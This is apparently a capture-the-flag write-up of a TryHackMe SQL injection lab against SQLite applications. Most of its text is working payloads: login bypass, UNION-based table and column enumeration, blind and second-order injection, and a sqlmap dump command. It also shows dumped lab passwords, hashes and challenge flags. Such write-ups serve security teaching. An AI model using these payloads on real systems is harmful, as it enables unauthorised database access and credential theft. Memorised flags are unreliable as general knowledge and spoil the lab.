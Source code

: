 # SQL Injection Lab

<details>
   <summary>Introduction to SQL Injection: Part 2</summary>       
 
   
- ``try to put this in email``
```
', nickName='test', email='hacked
```

> the nikname be came ``test`` and email ``hacked``

- ``want to know data base type``

```
', nickName=sqlite_version(), email='
```

> notice that the nikneame became ``3.22.0`` ==> SQLite

- ``SQLite store his tables in sqlite_master we will try to get all tables``

```
', nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%'), email='
```

> found two tables ``usertable,secrets``

- ``find name of columns of table``

```
', nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name='usertable'), email='
```
``found``

```
CREATE TABLE `usertable` ( `UID` integer primary key,
                           `name` varchar(30) NOT NULL,
                           `profileID` varchar(20) DEFAULT NULL,
                           `salary` int(9) DEFAULT NULL,
                           `passportNr` varchar(20) DEFAULT NULL,
                           `email` varchar(300) DEFAULT NULL,
                           `nickName` varchar(300) DEFAULT NULL,
                           `password` varchar(300) DEFAULT NULL )
```

- ``get usernames and passwords``

```
', nickName=(SELECT group_concat(name,password) FROM usertable), email='
```

> ``And booom``

``found``

```
Francois05842ffb6dc90bef3543dd85ee50dd302f3d1f163de1a76eee073ee97d851937
Michandrec69d171e761fe56711e908515def631856c665dc234a0aa404b32c73bdbc81ac
Coletteb6efdfb0e20a34908c092725db15ae0c3666b3cea558fa74e0667bd91a10a0d3
Phillipbe042a70c99d1c438cdcbd479b955e4fba33faf4f8c494239257e4248bbcf4ff
Ivan6ef110b045cbaa212258f7e5f08ed22216147594464427585871bfab9753ba25
Admin
```

> but here we want the flag so we will see colomns of another tabel ``secrets``

- ``find the flag``

```
', nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name='usertable'), email='
```

``found``

```
CREATE TABLE secrets ( id integer primary key,
                       author integer not null,
                       secret text not null )
```

- ``get the flag``

```
', nickName=(SELECT group_concat(secret) FROM secrets), email='
```

``found``

```
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Integer a.,Donec viverra consequat quam,
 ut iaculis mi varius a. Phasellus.,Aliquam vestibulum massa justo, in vulputate velit ultrices ac.
 Donec.,Etiam feugiat elit at nisi pellentesque vulputate. Nunc euismod nulla.,
THM{b3a540515dbd9847c29cffa1bef1edfb}
```



  
</details>




-----------------------------------------------------------------------------------------------------------------------




<details>
   <summary>Vulnerable Startup: Broken Authentication</summary>

``write in username``
``
' or 1=1; -- -
``
  
</details>



----------------------------------------------------------------------------------------------------------------------------------------




<details>
   <summary>Vulnerable Startup: Broken Authentication-2</summary>

## ``first``

```
' OR 1=1-- -
```

> when logedin you will find the name of user in top right of page and also in cookie
>
> if you want to decode cookie you can use ``https://www.kirsle.net/wizards/flask-session.cgi`` or this script ``decode_cookie.py``
>
> you will find it like this :
> ```
> {
>    "challenge2_user_id": 1,
>    "challenge2_username": "admin"
> }
> ```


### ``now we will use UNION select to know number of columns that query ask for``

``back to login page and write: ``

```
' UNION SELECT NULL-- -
```
``it failed so will try: ``

```
' UNION SELECT NULL, NULL-- -
' UNION SELECT 1, 2-- -
```
``IT work now use``

⚠️⚠️⚠️

<details>
  <summary>found type of database and tabeles,....</summary>

``type of data_base``

```
' UNION SELECT sqlite_version(), NULL-- -
' UNION SELECT @@version, NULL-- -
```

> ``found that it is sqlite``

### `` now find tables in this database``

```
' UNION SELECT 1, group_concat(tbl_name) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%'-- -
```

> found ``users``

### ``now find name of columns in table``

```
' UNION SELECT 1, sql FROM sqlite_master WHERE name='users' AND type='table'-- -
```

``found:``

```
CREATE TABLE users ( id integer primary key,
                     username text unique not null,
                      password text not null )
```


  
</details>
⚠️⚠️⚠️

> found the name in top right became ``2``


``get all basswords of users``

```
' UNION SELECT 1, group_concat(password) FROM users-- -
```

``found``

```
Logged in as rcLYWHCxeGUsA9tH3GNV,asd,Summer2019!,345m3io4hj3,THM{fb381dfee71ef9c31b93625ad540c9fa},viking123 | 
```
**yapppp!!!**


</details>



-------------------------------------------------------------------------------------------------------------------------




<details>
   <summary>Vulnerable Startup: Broken Authentication 3 (Blind Injection)</summary>

### ``first try to know password length``

```
admin' AND length((SELECT password from users WHERE username='admin'))=1-- -
```
> change ``1`` untill login when login then this is password length you can user ``burp``
>
> found it in ``37``


### ``now try go guess every char in the password ``

```
admin' AND SUBSTR((SELECT password FROM users WHERE username='admin'), 1, 1) = CAST(X'54' as TEXT)-- -
admin' AND SUBSTR((SELECT password FROM users WHERE username='admin'), 1, 1) = a-- -
```
> first ``1`` mean first char in ``password``
>
> second ``1`` mean we use in every time one char
>
> when found first char true change first ``1`` to ``2`` and so on .....

#### ``OR`` YOU can use ``SQLmap``

```
sqlmap -u http://10.10.247.180:5000/challenge3/login \--data="username=admin&password=admin" \--level=5 --risk=3 --dbms=sqlite --technique=B --dump
```
> found this

```
Table: users
[5 entries]
+----+---------------------------------------+----------+
| id | password                              | username |
+----+---------------------------------------+----------+
| 1  | THM{f1f4e0757a09a0b87eeb2f33bca6a5cb} | admin    |
| 3  | asd                                   | amanda   |
| 2  | Summer2019!                           | dev      |
| 5  | 345m3io4hj3                           | emil     |
| 4  | viking123                             | maja     |
+----+---------------------------------------+----------+

```


   
</details>


-------------------------------------------------------------------------------------------------------------------------------------



<details>
   <summary>Vulnerable Startup: Vulnerable Notes</summary>

- > login not vuln but when you enter vuln username it can used when do insert in notes
  >
  > ``login`` with
  >
  > ```
  > ' union select 1, group_concat(tbl_name) from sqlite_master where type='table' and tbl_name not like 'sqlite_%'--
  > ```
  >
  > open notes you will found :
  >
  > ```
  > users,notes
  > ```
  >
  > so it's vuln and you now know tables names
  >
  > now use :
  >
  > ```
  > '  union select 1,group_concat(password) from users'
  > ```
  >
  > ``found``
  >
  > ```
  > THM{4644c7e157fd5498e7e4026c89650814}
  > ```

   
</details>




--------------------------------------------------------------------------------------------------------------------------------------





<details>
     <summary>Vulnerable Startup: Change Password (i like it) 💯 second-order SQLI</summary>

- > create account using this name:
  >
  > ``admin'-- -``
  >
  > after login we will try to change password , reset password query is not scure this it is :
  >
  > ```
  > UPDATE users SET password = ? WHERE username = 'admin'-- -'
  > ```
  >
  > in this way we change passowrd of ``admin`` user
  >
  > after that login with new passowrd ``admin:123``
  >
  > and ``found``
  >
  > ```
  >  THM{cd5c4f197d708fda06979f13d8081013} 
  > ```
  >
  
   
</details>






-------------------------------------------------------------------------------------------------------------------------------------------










<details>
    <summary>Vulnerable Startup: Book Title</summary>

- > function of search on books it's query is vuln:
  >
  > ```
  > SELECT * FROM books WHERE id = (SELECT id FROM books WHERE title LIKE '" + title + "%')
  > ```
  >
  > we will found in url the title like this
  >
  > ``http://10.10.216.224:5000/challenge6/book?title=test``
  >
  > it's query is :
  >
  > ```
  > SELECT * FROM books WHERE id = (SELECT id FROM books WHERE title LIKE 'test%')
  > ```
  >
  > if i write **``') OR 1=1-- -``**
  >
  > the query will be like
  >
  > ```
  > SELECT * FROM books WHERE id = (SELECT id FROM books WHERE title LIKE '') OR 1=1-- -')
  > ```
  >
  > and it will give us all books : )
  >
  > and now we can user UNION select to get our tables and it's data
  >
  > ![MuaKissGIF](https://github.com/user-attachments/assets/9eef9bc5-c0b9-4e1c-98f2-21e5e00b8d0e)
  >
  > after that write:

  ⚠️⚠️⚠️
<details>
   <summary>get name of table and it's column</summary>

   - > ```
     > ') UNOIN select 1-- -
     > ```
     > no output untill found
     >
     > ```
     > ') union select 1,2,3,4-- -
     > ```
     >
     > ### now we need to know tables name
     >
     > ```
     > ') UNION SELECT 1,2,3, group_concat(tbl_name) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%'-- -
     > ```
     >
     > found
     > **``users,notes,books``**
     >
     > ### ``now find colmn names``
     >
     > ```
     > ') UNION SELECT 1,2,3,sql FROM sqlite_master WHERE name='users' AND type='table'-- -
     > ```
     >
     > found
     > 
     > ```
     > CREATE TABLE users ( id integer primary key,
     >                      username text unique not null,
     >                      password text not null )
     > ```
     >
     > ### get passowrds
     >
     > ```
     > ') union select 1,2,3,group_concat(password) from users-- -
     > ```
     >
     >  ```
     >  THM{27f8f7ce3c05ca8d6553bc5948a89210},asd,Summer2019!,345m3io4hj3,viking123,123
     >  ```
   
</details>
⚠️⚠️⚠️⚠️
   
   - >
     > found that there is users tabel and column call password
     > 
     > ```
     > ') union select 1,2,3,group_concat(password) from users-- -
     > ```
     >
     > ```
     > THM{27f8f7ce3c05ca8d6553bc5948a89210},asd,Summer2019!,345m3io4hj3,viking123,123
     > ```
     > ![MuaKissGIF](https://github.com/user-attachments/assets/9eef9bc5-c0b9-4e1c-98f2-21e5e00b8d0e)
     > 
    
  

  
  
  

   
</details>







---------------------------------------------------------------------------------------------------------------------------------------------




<details>
    <summary>Vulnerable Startup: Book Title 2</summary>


- > in this challenge the query it take two union select
  > ![image](https://github.com/user-attachments/assets/694bd1f1-c501-4b08-bc2c-a2733ebef701)
  >
  > so if i write ``10.10.216.224:5000/challenge7/book?title=' union select '1' -- -``
  >
  > i will see content of book that it's ``id=1``
  > ![image](https://github.com/user-attachments/assets/4947ebae-0843-4456-a88a-04fecb47e3b3)
  >
  > now if i put :
  >
  > ```
  > http://10.10.216.224:5000/challenge7/book?title=' union select '-1''union select 1,27,3,44-- -
  > ```
  > that will be the output
  >
  > ![image](https://github.com/user-attachments/assets/680c37e4-6fe1-4a55-9645-e5a43b0ad488)
  
<details>
  <summary>know tables and ....</summary>

```
' union select '-1''union select 1,2,3,sql FROM sqlite_master WHERE name='users' AND type='table'-- -
```
   
</details>



- > 
  > ### ``now get the passowrd``
  >
  > ```
  > ' union select '-1''union select 1,2,3,group_concat(password) from users-- -
  > ```
  >
  > found
  >
  > ``
  > THM{183526c1843c09809695a9979a672f09},asd,Summer2019!,345m3io4hj3,viking123,123
  > ``   





   
</details>


















---
---
---
---



# ``payloads``

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md
